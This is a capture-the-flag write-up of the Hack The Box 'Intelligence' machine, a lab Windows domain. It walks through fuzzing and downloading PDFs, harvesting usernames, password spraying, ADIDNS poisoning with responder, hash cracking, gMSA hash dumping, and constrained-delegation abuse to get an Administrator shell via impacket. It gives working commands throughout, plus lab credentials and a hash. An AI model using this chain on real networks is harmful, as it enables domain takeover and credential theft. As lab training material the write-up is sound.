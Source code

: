 ## Intelligence

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.10.248 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/e1490df1-e4ed-4a93-9d94-5e42e46d21fc)

<br>

On website, we have 2 PDFs inside /documents with the name as a date.  

We can make a python script to create a wordlist to fuzz this.

```python
for i in range(1,13):
    for x in range(1,32):
        # Month
        if len(str(i)) == 1:
            y    = "2020-0" + str(i)
        else:
            y    = "2020-" + str(i)

        # Day
        if len(str(x)) == 1:
            finalPDF = y + "-0" + str(x) + "-upload.pdf"
        else:
            finalPDF = y + "-" + str(x) + "-upload.pdf"

        file = open("wordlistPDF.txt", "a")
        file.write(finalPDF)
        file.write("\n")

print("Generated --> wordlistPDF.txt")
```

```
ffuf -w wordlistPDF.txt -u http://intelligence.htb/documents/FUZZ
echo pdfs.txt | cut -f2 -d":" > edited.txt
```

![generateWordlist](https://github.com/b1d0ws/OSCP/assets/58514930/795e99ac-562c-4cee-89d3-35a48d7b2091)

![ffuf](https://github.com/b1d0ws/OSCP/assets/58514930/de5dacb1-bf11-4168-ab5f-a9c0ecb3dd0f)

<br>

Now we can use a bash script to download everyfile.

```bash
#!/bin/bash
 
filename="pdfs.txt"
 
for line in $(cat "$filename")
do
  wget "http://intelligence.htb/documents/$line"
done
```

![downloadPDFs](https://github.com/b1d0ws/OSCP/assets/58514930/f85367e8-0112-4d09-a4a4-232c445c7f65)

<br>

We can enumerate users filtering the "Creator" field in exiftool.

```
exiftool * | grep Creator | cut -f2 -d":" > users.txt

# Removing blank spaces
sed -r 's/\s+//g' pdfs.txt
sed -r 's/\s+//g' users.txt
```

![usersTXT](https://github.com/b1d0ws/OSCP/assets/58514930/f27aa665-4ba5-499b-a624-1cde255ae432)

<br>

Reading the PDFs we find a default password: NewIntelligenceCorpUser9876, so we can password spray with crackmapexec and list shares with the user found.

```
sudo crackmapexec smb 10.10.10.248 -u users.txt -p NewIntelligenceCorpUser9876 | grep +

sudo crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares

```

![crackmapUsers](https://github.com/b1d0ws/OSCP/assets/58514930/5900d2b8-07c8-4710-92db-ea3734206a80)

<br>

There is a cleaner way to do this all above.

```
# PDFs
d=2020-01-01; while [ "$d" != `date -I` ]; do echo "http://10.10.10.248/Documents/$d-
upload.pdf"; done | xargs -n 1 -P 20 wget < list 2>/dev/null

# Creators
exiftool -Creator -csv *pdf | cut -d, -f2 | sort | uniq > userlist

# Reading PDFs
for f in *pdf; do pdftotext $f; done
head -n1 *txt
```

### Root Flag

#### Ted Graves User

Enumerating shares, we find a powershell script that resolves DNS where the name starts with web.

Use dnstool to create arbitrary DNS records on the Active Directory Integrated DNS (ADIDNS) zone to add a new record that points to our own IP address, use responder to get a user hash and crack it with hashcat.

```
smbclient //10.10.10.248/IT -U "Tiffany.Molina"

python3 dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.21 -t A

responder -I tun0

hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

![downdetectorDownload](https://github.com/b1d0ws/OSCP/assets/58514930/1b07db10-6d60-4768-8d49-4e6865bc8a49)

![downdetector](https://github.com/b1d0ws/OSCP/assets/58514930/f9961d23-37b6-47b9-93f4-8fb1ec2d8b48)

![dnstool](https://github.com/b1d0ws/OSCP/assets/58514930/2f124c86-237a-48b8-843a-ecbbbf66811e)

![responder](https://github.com/b1d0ws/OSCP/assets/58514930/b597568e-2b4d-4147-9410-a5a42f99f334)

![hashcatTed](https://github.com/b1d0ws/OSCP/assets/58514930/d80f9241-113a-4e34-885d-078f0ab6e83e)

<br>

#### SVC_INIT User

Using bloodhound, we see that Ted.Graves belongs to ITSUPPORT group and we have ReadGMSAPassword on SVC_INT.

We can use gMASDumper to get this user hash.

```
python3 bloodhound.py -u 'Ted.Graves' -p 'Mr.Teddy' -ns 10.10.10.248 -d intelligence.htb -c all

zip -r intelligence.zip *.json

python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d 'intelligence.htb' -l 10.10.10.248
```

![bloodhound](https://github.com/b1d0ws/OSCP/assets/58514930/19756c6b-72ff-485a-b2ee-fac5fb52c64a)

![gMSADumper](https://github.com/b1d0ws/OSCP/assets/58514930/e1ecba41-8a16-4ed6-8630-c89771305682)

<br>

#### System User

SVC_INIT has AllowedToDelegate rights to the Domain Controller. We can abuse constrained delegation to request a TGT for the Administrator user.

```
# Abuse constrained delegation
timedatectl set-ntp 0
sudo ntpdate -s 10.10.10.248
impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :ff3418066942aa8bd228ea17dc71999a

# Get a Shell with wmiexec
export KRB5CCNAME=Administrator.ccache
echo "10.10.10.248 dc.intelligence.htb" | sudo tee -a /etc/hosts
impacket-wmiexec -k -no-pass dc.intelligence.htb
```

![getAdministrator](https://github.com/b1d0ws/OSCP/assets/58514930/5ac88ed1-c299-444a-a450-ac7d8d454a6e)
